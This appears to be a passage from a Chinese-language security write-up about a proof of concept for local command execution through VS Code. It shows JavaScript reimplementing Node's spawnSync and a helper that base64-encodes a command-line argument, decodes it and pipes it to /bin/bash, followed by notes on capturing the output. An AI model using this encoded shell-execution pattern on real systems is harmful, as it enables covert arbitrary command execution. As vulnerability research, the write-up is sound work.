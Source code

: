 ```js
            type: 'pipe',
            readable: !0,
            writable: !1
        }, {
            type: 'pipe',
            readable: !1,
            writable: !0
        }, {
            type: 'pipe',
            readable: !1,
            writable: !0
        }], a.input) {
        var g = a.stdio[0] = util._extend({}, a.stdio[0]);
        g.input = a.input;
    }
    for (c = 0; c < a.stdio.length; c++) {
        var e = a.stdio[c] && a.stdio[c].input;
        if (e != null) {
            var f = a.stdio[c] = util._extend({}, a.stdio[c]);
            isUint8Array(e) ? f.input = e : f.input = Buffer.from(e, a.encoding);
        }
    }
    var b = spawn_sync.spawn(a);
    if (b.output && a.encoding && a.encoding !== 'buffer')
        for (c = 0; c < b.output.length; c++) {
            if (!b.output[c]) continue;
            b.output[c] = b.output[c].toString(a.encoding);
        }
    return b.stdout = b.output && b.output[1], b.stderr = b.output && b.output[2], b.error && (b.error = b.error + 'spawnSync ' + d.file, b.error.path = d.file, b.error.spawnargs = d.args.slice(1)), b;
}

// 加的辅助调试内容
function base64(data) {
    return Buffer.from(data).toString('base64')
}
const COMMAND = process.argv[2]
const COMMAND_B64 = base64(COMMAND)

//id=4
spawnSync('/bin/bash', ['-c', `echo ${COMMAND_B64} | base64 -d | /bin/bash`])

```



id为2和3的表达式中定义了函数`spawnSync`，其中处理了诸如环境变量，输入输出这些细节。id为4的表达式中调用spawnSync来执行终端中传入的命令。

可以看到spawnSync函数返回了执行结果的stdout以及stderr，于是我修改了poc，把执行结果放入一个变量中，通过前面的文档可以知道，这种远程执行是有”副作用“的，所以在Chrome中的调试界面应该能打印这个变量，就可以看到报错信息。

![image-20191105135602718](/img/vscode-local-execute/image-20191105135602718.png)
